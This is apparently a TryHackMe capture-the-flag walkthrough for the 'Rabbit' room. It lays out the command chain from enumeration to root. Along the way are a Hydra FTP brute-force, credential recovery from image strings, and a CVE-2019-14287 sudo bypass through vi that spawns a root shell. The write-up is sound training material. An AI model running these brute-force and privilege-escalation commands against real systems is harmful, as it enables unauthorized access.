## Rabbit - TryHackMe Walkthrough

---

**Author:** Sanjay D <br>
**THM-Profile:** cyberdragon1 \[0x9]\[MAGE]

---

## 🧭 Enumeration

We begin with an **Nmap scan** to discover open ports and services running on the target:

```bash
sudo nmap -sV -sS -A -T4 10.10.196.173
```


The scan revealed a **web server running on port 80**. Accessing it in the browser showed the **Apache2 default page**, which gave us no useful information. To explore further, we ran a **Gobuster directory enumeration**:



```bash
gobuster dir -u http://10.10.196.173 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```


This revealed a hidden directory named `/assets`. Browsing through it, we found a file called `style.css`, which contained a suspicious comment with a reference to:





```
/sup3r_s3cr3t_fl4g.php
```

---

## 🎧 Interacting with Hidden Content

Navigating to `/sup3r_s3cr3t_fl4g.php`, a pop appeared prompting to turn of the javascript,after turning javascript off we were met with an video-based page. After **56 seconds**, we heard a hint in the audio:



> “I’ll put you out of your misery **burp** you’re looking in the wrong place.”

This was a clue to **inspect HTTP requests** more closely. We used **Burp Suite** to capture the request to `sup3r_s3cr3t_fl4g.php` and analyze the response.



The response included a new, obscured path:



```
/WExYY2Cv-qU/Hot_Babe.png
```


We downloaded this image to our local Kali machine:

```bash
wget http://10.10.11.201/WExYY2Cv-qU/Hot_Babe.png
```


---

## 🕵️‍♂️ Steganography and Hidden Credentials

With no clear visual clue in the PNG file, we examined it using **ExifTool**:

```bash
exiftool Hot_Babe.png
```


No useful metadata was found. Next, we attempted steganography extraction:

```bash
steghide extract -sf Hot_Babe.png
stegcracker Hot_Babe.png rockyou.txt
```


Both methods failed. As a last resort, we tried extracting printable strings:

```bash
strings Hot_Babe.png
```


Success! This revealed the **FTP username** `ftpuser` and what appeared to be a **bunch of passwords**. We saved those strings into a file called `passwords` and used **Hydra** to brute-force the FTP login:

```bash
hydra -l ftpuser -P passwords ftp://10.10.11.201
```


Hydra identified the correct password, and we logged in to the FTP server. Inside, we discovered a file called `Eli's_creds.txt`, which we downloaded.



---

## 🧠 Decoding Brainfuck

Opening `cred.txt`, we were met with a string of characters in an unfamiliar format. Upon investigation, we discovered it was encoded in **Brainfuck**, an esoteric programming language.



We used an online Brainfuck interpreter to decode the message, revealing the **SSH credentials** for the next user.



Upon SSH login, we received a message from the `root` user addressed to `Gwendoline`. This clue hinted at a possible second user.



---

## 🧍 Accessing Gwendoline’s Account

Using the context from the root message, we searched the system for files referencing `s3cr3t`. We found a suspiciously named file while executing the locate command:

```bash
locate s3cr3t
```

```
the file name : this message is for gwendoline only!
```


Using `cat`, we read its contents and retrieved the **password for the `gwendoline` user**.



We switched users via SSH and were successfully logged in as `gwendoline`. The **user flag** was found in the home directory.



---

## 🚀 Privilege Escalation

We checked `sudo` privileges for `gwendoline`:

```bash
sudo -l
```


The output revealed:

```
(gwendoline) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Initially, we tried a classic [GTFOBins-vi](https://gtfobins.github.io/gtfobins/vi/) method:



```bash
vi -c ':!/bin/sh' /dev/null
```


But it failed.

Upon researching, we discovered a known vulnerability: **CVE-2019-14287**, which affects how `sudo` interprets user IDs.

Using this vulnerability, we ran:

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

Inside `vi`, we executed:

```
:!/bin/sh
```

A root shell was spawned. Verifying with `id` confirmed root access. We navigated to `/root` and retrieved the **root flag**:

```bash
cat /root/root.txt
```


---

## ✅ Summary

* **Enumeration** revealed a web server and hidden paths leading to audio hints and an image.
* **Steganography and string extraction** helped reveal FTP credentials.
* **FTP access** provided a Brainfuck-encoded message, which we decoded for SSH credentials.
* SSH login led to a second user (`gwendoline`) and eventually **privilege escalation** via a `vi` command vulnerability.
* **CVE-2019-14287** was exploited to bypass restricted `sudo` configurations and spawn a root shell.
* Pwned Rabbit !!!!
  


---
